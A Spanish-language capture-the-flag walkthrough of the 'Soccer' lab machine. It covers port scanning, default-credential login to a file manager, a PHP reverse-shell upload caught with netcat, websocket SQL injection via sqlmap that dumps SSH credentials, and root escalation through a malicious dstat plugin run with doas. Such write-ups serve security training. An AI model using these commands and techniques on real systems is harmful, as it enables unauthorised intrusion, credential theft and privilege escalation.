


# Resolución maquina soccer

**Autor:** PepeMaquina  
**Fecha:** 16 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Web-Shell, API, SUID.

---
## Imagen de la Máquina

*Imagen: soccer.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.194 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80,9091 10.10.11.194 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 16 Oct 2025 16:22:52 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 16 Oct 2025 16:22:52 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
~~~
### Enumeración de nombre del dominio
Al revisar la salida de nmap, se pudo  observar que la página web redirige al nombre "soccer.htb" por lo que se agrega esta dirección al /etc/hosts.
~~~
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.194 soccer.htb
~~~

### Enumeración de la página web
Al revisar la página web, no se encontró algo importante, por lo que se paso a realizar una enumeración de directorios.
~~~bash
feroxbuster -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://soccer.htb
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       10w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      494l     1440w    96128c http://soccer.htb/ground3.jpg
200      GET      809l     5093w   490253c http://soccer.htb/ground1.jpg
200      GET     2232l     4070w   223875c http://soccer.htb/ground4.jpg
200      GET      711l     4253w   403502c http://soccer.htb/ground2.jpg
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
~~~
De dicha forma se encontro una pagina (/tiny) que se ve interesante a lo que se dirige a ella.
Viendo el contenido de la página, se puede ver que esta presenta un inicio de sesion, por lo que realizando una averiguacion de credenciales validas, se encuentran unas que parecen ser utiles (admin:admin@123).
Una vez dentro parece se un servicio para poder subir archivos a la página, por lo que se crea una shell en php básica.

Entrando primero a la carpeta "uploads" y seleccionando la accion "upload" se puede subir cualquier archivo en formato php, una vez dentro de envia una reverse shell y se logra entablar una sesion con el servidor.

~~~bash
sudo nc -nlvp 4433             
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.194] 53354
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

### Explotación con uso de la API
Con ello se tiene acceso al servidor como una cuenta de servicio que hostea la página, realizando enumeración básica, se puede ver que no hay nada importante como credenciales validas, pero esta abierto el servicio de mysql, por lo que buscando las carpetas de configuración de nginx se logró observar que presenta un subdominio que no se había contemplado.
~~~
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
~~~

Asi que añadiendo esto al /etc/hosts e ingresando a la página, se puede ver que presenta un nuevo inicio de sesión pero permite el registro de usuarios nuevos, por lo que registrandonos se ve que redirige a una especie de fichas de usuarios.

Jugando con el ticket id, se observo una peculiaridad importante, al parecer esta viene de una base de datos conectada y jugando con parametros de "or 1=1" y "and 1=1" entrega respuestas diferentes con el texto de "ticket doesn't exist" o "ticket exist" sucesivamente, entendiendo que de cierta forma puede ser vulnerable a alguna sqli.
Revisando el codigo fuente de la página, se ve que juega con websockets por el puerto 9091, el puerto que se vio en el escaneo, por lo que seguramente la pagina pide peticiones a ese puerto y vendria a ser una api.
~~~

~~~
De esto se pueden sacar dos cosas, una que las peticiones por a "ws://soc-player.soccer.htb:9091" y la segunda que los envia en formato json con un parametro de "id", por lo que probando esto y pasandolo a sqlmap.
~~~bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "123"}' --level 5 --risk 3 --dump
~~~
Se encontro una base de datos llamada "soccer_db" y varias tablas, entre ellas la que es de interes es "accounts" con columnas como "username y password", asi que dumpeando esa base de datos especifica se lograron obtener credenciales posiblemente validas para ssh.
~~~bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "123"}' --level 5 --risk 3 --dump -D soccer_db -T accounts -C username,password
        ___
 <SNIP>
 Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
<SNIP> 
~~~
Por lo que ingresando con dichas credenciales se logra obtener acceso a ssh con el usuario player

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con esto ya se puede ver la user flag
~~~
ssh player@10.10.11.194        
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Oct 16 19:56:00 UTC 2025

  System load:           0.0
  Usage of /:            71.7% of 3.84GB
  Memory usage:          28%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:fe94:be0c

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ ls
user.txt
player@soccer:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Se realizó la enumeración básica, enfatizando en los permisos SUID donde se vieron cosas interesantes.
~~~
player@soccer:/$ find / -type f -perm -04000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
~~~
Viendo un archivo peculiar que no es conocido, "/usr/local/bin/doas".
Al intentar leerlo se ve que no tiene permisos, pero pensando, se puede deducir que cualquier binario normalmente tiene su archivo de configuración, por lo que realizando una busqueda rapida se la pudo encontrar.
~~~
player@soccer:/$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
~~~
Al leer esto, se ve que se puede ejecutar otro binario sin necesidad de colocar contraseña y con permisos se root.
~~~
player@soccer:/$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
~~~
Asi que buscando esto en GTFOBINS, existe pa posibilidad de manipular un script de python para abrir una sesion como root, por lo que aprovechando estos permisos se realizo lo siguiente.
~~~
player@soccer:/$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_123.py
player@soccer:/$ doas //usr/bin/dstat --123
doas: Operation not permitted
player@soccer:/$ doas /usr/bin/dstat --123
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
Obteniendo de esa manera acceso al root del servidor.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Copiando el id_rsa a la maquina atacante, solo es cosa de modificar los permisos y entrar como root.
~~~bash
# cat /root/root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

